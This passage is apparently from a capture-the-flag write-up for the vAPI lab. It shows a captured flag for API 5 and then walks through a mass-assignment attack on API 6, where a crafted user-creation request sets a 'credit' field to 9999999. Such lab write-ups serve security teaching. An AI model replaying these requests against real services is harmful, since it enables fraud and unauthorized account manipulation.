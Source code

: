 We get all the users' details along with the admin user's account details which contain our flag 5: `flag{api5_76dd990a97ff1563ae76}`.

---

## API 6 [Mass Assignment]
>Welcome to our store , We will give you credits if you behave nicely. Our credit management is super secure

We start by creating a user account:

```js
Request => "POST http://{{host}}/vapi/api6/user"
{
    "name":"name123",
    "username":"user123",
    "password":"pass123"
}
Response =>
{
    "name": "name123",
    "username": "user123",
    "id": 2
}
```

We can retrieve our user's account details with the following request:

```js
Request => "GET http://{{host}}/vapi/api6/user/me"
Response =>
{
    "id": 2,
    "name": "name123",
    "username": "user123",
    "credit": "0"
}
```

There is an interesting property called `credit` whose value is 0. What if we could change the credit value??

Let's create another user and forcefully set the credit value to 9999999.

```js
Request => "POST http://{{host}}/vapi/api6/user"
{
    "name":"newname",
    "username":"newuser",
    "password":"newpass",
    "credit":"9999999"
}
Response =>
{
    "name": "newname",
    "username": "newuser",
    "id": 6
}
```
